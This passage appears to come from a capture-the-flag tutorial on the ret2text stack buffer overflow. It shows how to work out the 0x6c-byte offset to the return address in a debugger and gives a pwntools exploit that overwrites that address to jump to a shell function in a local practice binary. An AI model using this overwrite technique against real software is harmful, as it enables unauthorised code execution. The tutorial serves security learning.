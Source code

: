 The following is the problem of determining the fill length to construct the `payload`. The first thing we need to determine is the starting address of the memory that we can control is the number of bytes of the return address of the `main` function.

<div align=center><img src="./images/13.png"></div>

You can see that the string passes the index relative to `esp`, so we need to debug it, and put the breakpoint at `call`, and check `esp`, `ebp`.

<div align=center><img src="./images/14.png"></div>

You can see that `esp` is `0xff805d70`, `ebp` is `0xff805df8`, and the index of `s` relative to `esp` is `esp+0x1c`, so we can infer:
 - The address of `s` is `0xff805d8c`
 - The offset of `s` to `ebp` is `0xff805df8-0xff805d8c`, that is `0x6c`.

`exploit` is as follows:

```python
# coding=utf-8
from pwn import *

sh = process('./ret2text')
shell_addr = 0x0804863A
payload = 'a' * (0x6c+4) + p32(shell_addr)
sh.sendline(payload)
sh.interactive()
```

<div align=center><img src="./images/15.png"></div>
